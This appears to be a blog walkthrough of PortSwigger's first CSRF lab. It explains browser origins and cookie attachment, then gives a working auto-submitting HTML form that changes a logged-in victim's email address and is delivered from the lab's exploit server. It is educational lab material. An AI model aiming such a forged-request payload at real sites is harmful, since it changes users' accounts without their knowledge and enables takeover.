




# Portswigger Web Security Academy | CSRF Lab #1

Hi everyone! Today, we’ll be solving the first **CSRF lab** from the PortSwigger Web Security Academy. Let’s get started!

### Understanding How Browsers Send Cookies

To solve this lab, you first need to understand how a browser decides whether to include cookies in an outgoing request.

Browsers make this decision based on the **origin** of the request.

If this is your first time encountering the term _origin_, here’s a quick breakdown. Take the URL:

```
https://example.com
```

The **origin** consists of three parts:

* **Protocol:** `https://`
* **Domain:** `example.com`
* **Port:** `:443` (for HTTPS, the default port is 443, though most browsers hide it in the address bar)

Important: Don’t confuse _origin_ with the full URL. The **path** and **query parameters** do not affect the origin.



[https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)

When a browser sees that a request matches an origin with which cookies are associated, it automatically attaches those cookies to the request.

Of course, there are additional rules depending on cookie attributes (e.g., `Domain`, `SameSite`, `HttpOnly`, `Secure`, `Expires`). But for this first lab, the basic origin rule is all you need to know.

### Lab Description



I logged in as the `wiener` user, changed my email address, and captured the HTTP request. Here’s what I found:



* To change a user’s email address, the application requires a **POST request** to a specific endpoint with the new email as a form parameter.
* The request also needs the user’s **session cookie** to succeed.

Normally, as an attacker, we don’t have the victim’s cookies. But thanks to **CSRF (Cross-Site Request Forgery)**, we don’t need them directly.

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
</head>
<body onload="document.getElementById('autoForm').submit();">
  <form id="autoForm" action="https://<YOUR-LAB-ID>.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="csrf@mail.com">
  </form>
</body>
</html>

```

1. Change the `<YOUR-LAB-ID>`
2. Go to the **Exploit Server**
3. Paste the payload into the Body section
4. Hit the **Store** & **Deliver Exploit to Victim** buttons



After those steps, you should be seeing the **Congratulations, you solved the lab!**

#### What Just Happened?

Let’s break it down:

1. The HTML payload automatically makes a **POST request** to the email-change endpoint with a new email address.
2. The Exploit Server (provided by PortSwigger) hosts this malicious HTML.
3. When you click **Deliver**, the simulated victim visits the exploit page.
4. The victim’s browser executes the hidden form submission.
5. Even though we never inserted the cookie in the payload, the browser **attached the victim’s session cookie automatically** because the request was being made to the same origin.
6. Since the request contained everything needed (endpoint, POST body, and the victim’s session cookie), the victim’s email address was changed without their knowledge.

This lab demonstrates the **most basic form of CSRF**. In real-world applications, you’ll usually encounter **CSRF defenses** such as:

* Anti-CSRF tokens
* `SameSite` cookie attributes
* Double-submit cookies
* User interaction requirements

In the upcoming labs, you’ll learn how attackers attempt to bypass these protections. 

Thanks for reading! This was your first successful CSRF exploit — congratulations! Have a nice day!